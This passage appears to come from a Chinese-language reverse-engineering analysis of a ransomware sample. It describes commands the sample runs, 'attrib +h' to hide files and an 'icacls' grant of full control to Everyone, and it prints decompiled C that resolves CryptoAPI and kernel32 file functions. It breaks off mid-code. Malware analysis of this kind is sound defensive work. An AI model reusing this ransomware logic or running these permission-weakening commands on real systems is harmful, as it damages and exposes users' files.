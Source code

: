 ```c

}  
```

在函数主题逻辑中利用到了两次ExeCmdCommand函数：

第一个创建了一个进程 并利用参数"attrib+h"
将当前目录下的所有文件设置为隐藏

第二个利用参数 "icacls ./grant Everyone:F /T /C /Q"添加用户并给予权限

## 5.3 加载病毒核心操作

在这部分所涉及的函数的操作都只有一个目的，即利用dll文件中的导出函数，下面我们分步进行分析

### 5.3.1 GetApis 获取必要的API函数 

```c
unsigned int GetApis()  

{  

HMODULE KernelBase; // eax  

HMODULE KernelAddr; // edi  

FARPROC CloseHandle_Addr; // eax  

signed int result; // eax  



if ( !GetCryptoAPIAddr() )                    // 获取CryptoAPI函数地址  

goto LABEL_15;  

if ( CreateFileW_Addr )  

goto LABEL_16;  

KernelBase = LoadLibraryA(Kernel32);          // 加载Kernel32.dll的基址  

KernelAddr = KernelBase;  

if ( !KernelBase )  

goto LABEL_15;  

CreateFileW_Addr = (int)GetProcAddress(KernelBase, CreateFileW);

// 获取文件操作的API函数地址  

WriteFile_Addr = (int)GetProcAddress(KernelAddr, WriteFile_0);  

ReadFile_Addr = (BOOL (__stdcall *)(HANDLE, LPVOID, DWORD, LPDWORD, LPOVERLAPPED))GetProcAddress(  

KernelAddr,  

ReadFile_0);  

MoveFileW_Addr = (int)GetProcAddress(KernelAddr, MoveFileW);  

MoveFileExW_Addr = (int)GetProcAddress(KernelAddr, MoveFileExW);  

```